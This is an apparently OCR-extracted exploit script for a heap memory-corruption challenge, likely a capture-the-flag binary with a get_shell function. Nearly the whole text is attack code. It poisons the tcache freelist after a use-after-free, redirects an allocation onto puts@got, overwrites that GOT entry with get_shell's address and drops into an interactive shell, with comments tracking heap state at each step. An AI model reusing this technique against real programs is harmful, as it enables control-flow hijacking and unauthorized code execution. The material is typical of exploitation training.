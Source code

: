 ```


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> b'aaaaaaaa'
# tc_idx = 1
# chunk : ptr[0]
modify(0, 0x10, b'a'*0x9)


# tcache[0x20] : ptr[0] -> ptr[0] + 0x10
# tc_idx = 2
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> puts@got
# tc_idx = 2
# chunk : ptr[0]
puts_got = elf.got['puts']
modify(0, 0x10, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 1
# chunk : ptr[1]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```
